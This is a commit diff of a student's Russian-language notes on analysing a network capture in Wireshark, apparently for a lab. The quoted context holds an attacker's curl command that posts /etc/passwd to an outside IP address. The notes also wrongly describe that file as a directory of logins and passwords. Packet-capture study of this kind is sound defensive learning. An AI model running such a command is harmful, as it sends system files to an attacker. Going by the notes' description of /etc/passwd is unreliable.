

Before and after one commit to ameliaash2454/study-labs, a Markdown page: Анализ PCAP WireShark.md, the part around the change. GitHub-like rendering; pictures changed too: attachment/Pasted image 20261105183439.png (added); blank space fills up the shorter version.

Commit message:
vault backup: 2026-11-05 18:36:38

```diff
--- a/Анализ PCAP WireShark.md
+++ b/Анализ PCAP WireShark.md
@@ -27,3 +27,6 @@
 Злоумышленник открывает директорию passwd. Данная директория содержит логины и пароли пользователей.
 
 curl -X POST -d /etc/passwd http://117.11.88.124:443/ - была введена следующая команда.  Я так понимаю это отправлен POST запрос с айпи адресом злоумышленника на порту 443. Пока не понимаю что это дает.
+
+Пакет 183 - установление соединения на порту 443. Инициатор веб сайт.
+![](attachment/Pasted%20image%2020261105183439.png)
```
